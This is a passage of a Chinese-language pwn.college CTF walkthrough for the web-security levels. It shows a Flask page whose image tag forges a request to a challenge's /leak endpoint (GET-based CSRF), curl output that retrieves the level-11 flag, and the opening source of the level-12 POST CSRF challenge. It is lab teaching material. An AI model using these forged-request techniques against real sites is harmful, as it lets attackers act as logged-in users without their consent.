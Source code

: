 ```python
def index():
    data='<img src="http://challenge.localhost/">'
    return data
app.run("hacker.localhost",8080)
```
后面的挑战都可以利用这个代码框架，只需要改变的是Data那个部分。
这里的所谓的img src是什么？就是tab里面这个小图片
![img src](image-10.png)
![举个例子](image-9.png)
不只是那个img src，比如说这个图，除了本身的请求之外，还请求了一个js,其实只要你用了其他站的src，都会同时发包的。

正确的内容如下所示:
```
from flask import Flask,request

app=Flask(__name__)
@app.route("/")
def index():
    data = '<img src="http://challenge.localhost/leak">'
    return data
app.run("hacker.localhost",8080)
```
这里是这样的：我启动了`hacker.localhost`服务，也就是127.0.0.1，然后我现在希望服务器把我设置为visited，这样我再访问challenge的时候就可以访问到flag了。这时候，我如何通过hacker让challenge给我设置为  visited呢？利用访问网页的同时网页也会请求ico的特点，让hacker发一个访问leak的包，即可！

```
hacker@web-security-level-11:~$ curl 'http://challenge.localhost/visit?url=http://hacker.localhost:8080/'
Visited
hacker@web-security-level-11:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{YJJku1sAPTQ8nbbxZ7Dy_Z3PahG.ddTOzMDL2QjMyMzW}
hacker@web-security-level-11:~$
```
## level12 Exploit a cross site request forgery vulnerability where the request must POST
看看源码
```
def level12():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

```